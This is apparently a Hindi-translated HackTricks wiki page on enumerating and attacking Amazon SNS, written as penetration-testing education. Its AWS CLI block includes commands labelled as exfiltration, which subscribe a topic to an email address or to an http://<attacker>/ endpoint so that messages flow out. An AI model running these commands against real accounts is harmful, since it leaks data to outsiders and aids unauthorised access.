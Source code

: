 # AWS - SNS Enum

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* अगर आप चाहते हैं कि आपकी **कंपनी HackTricks में विज्ञापित हो** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) और हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## SNS

अमेज़न सिम्पल नोटिफिकेशन सर्विस (Amazon SNS) एक **पूरी तरह से प्रबंधित संदेश सेवा** है। यह **एप्लिकेशन से एप्लिकेशन** (A2A) और **एप्लिकेशन से व्यक्ति** (A2P) स्थितियों के लिए संचार को सुगम बनाता है।

सेवा की A2A क्षमताएँ **प्रकाशित/सब्सक्राइब (पब/सब) तंत्र** शामिल हैं। ये तंत्र **विषय** प्रदान करते हैं, जो उच्च-परिपथ, **पुश-आधारित, और बहु-से-बहु संदेश** संचार को संभावित बनाते हैं। यह विशेष रूप से वितरित सिस्टम, माइक्रोसर्विसेस, और घटना-निर्देशित सर्वरलेस एप्लिकेशन जैसी स्थितियों में लाभकारी है। इन विषयों का उपयोग करने से प्रकाशक सिस्टम संदेशों को **विभिन्न सब्सक्राइबर सिस्टम** में वितरित कर सकते हैं, जिससे एक फैनआउट संदेश पैटर्न को सक्षम किया जा सकता है।

### **SQS के साथ अंतर**

**SQS** एक **कतार-आधारित** सेवा है जो बिंदु-से-बिंदु संचार को सुनिश्चित करती है, यह सुनिश्चित करती है कि संदेश को **एकल उपभोक्ता** द्वारा प्रसंस्कृत किया जाता है। यह **कम से कम एक बार वितरण** प्रदान करती है, मानक और FIFO कतारों का समर्थन करती है, और पुन: प्रयास और विलंबित प्रसंस्करण के लिए संदेश रिटेंशन की अनुमति देती है।\
दूसरी ओर, **SNS** एक **प्रकाशित/सब्सक्राइब-आधारित सेवा** है, जो **एक से अधिक** संचार को सक्षम करती है जिसमें संदेशों को **एक साथ कई सब्सक्राइबरों** को समय-समय पर प्रसारित किया जाता है। यह **ईमेल, एसएमएस, लैम्बडा फंक्शन्स, और HTTP/HTTPS** जैसे विभिन्न सब्सक्रिप्शन अंत-बिंदुओं का समर्थन करती है, और लक्षित संदेश पहुंचाने के लिए फ़िल्टरिंग तंत्र प्रदान करती है।\
जबकि दोनों सेवाएं वितरित सिस्टम में घटकों के बीच अलगाव सक्षम करती हैं, SQS कतार-संचार पर ध्यान केंद्रित है, और SNS घटना-निर्देशित, फैन-आउट संचार पैटर्न पर जोर देती है।

### **गणना**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
ध्यान दें कि यदि **विषय FIFO प्रकार का है**, तो केवल प्रोटोकॉल **SQS** का उपयोग करने वाले सब्सक्राइबर का उपयोग किया जा सकता है (HTTP या HTTPS का उपयोग नहीं किया जा सकता है)।

इसके अलावा, यदि `--topic-arn` क्षेत्र शामिल है तो सुनिश्चित करें कि आप **`--region`** में सही क्षेत्र निर्दिष्ट करें या आपको पहुंचने की अनुमति नहीं है लेकिन समस्या क्षेत्र में है जैसा कि दिखाई देता है।
{% endhint %}

### अप्रमाणित पहुंच

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

### प्रिविलेज उन्नति

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

### पोस्ट एक्सप्लोइटेशन

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

### स्थिरता

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

# संदर्भ
* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी कंपनी का विज्ञापन देखना चाहते हैं **HackTricks** में या **HackTricks को PDF में डाउनलोड** करना चाहते हैं तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos को PR जमा करके।

</details>
